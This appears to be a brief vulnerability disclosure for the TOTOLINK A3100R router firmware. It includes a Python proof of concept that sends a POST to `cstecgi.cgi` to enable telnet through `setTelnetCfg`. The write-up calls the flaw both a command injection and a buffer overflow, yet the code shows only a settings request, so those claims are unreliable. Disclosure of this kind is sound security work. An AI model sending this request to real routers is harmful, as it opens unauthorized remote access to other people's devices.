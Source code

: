 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html

## Affected version

A3100R V4.1.2cu.5050_B20200504

## Vulnerability details

In the A3100R V4.1.2cu.5050_B20200504 firmware has a command injection vulnerability in the `setTelnetCfg` function. The `v5` variable receives the `telnet_enabled` parameter from a POST request. However, since the user can control the input of `telnet_enabled`, the telnet service can cause a buffer overflow vulnerability.

![image-20240719233727873](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719233727873.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"telnet_enabled":"1", "topicurl":"setting/setTelnetCfg"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240719233900221](setTelnetCfg.assets/image-20240719233900221.png)
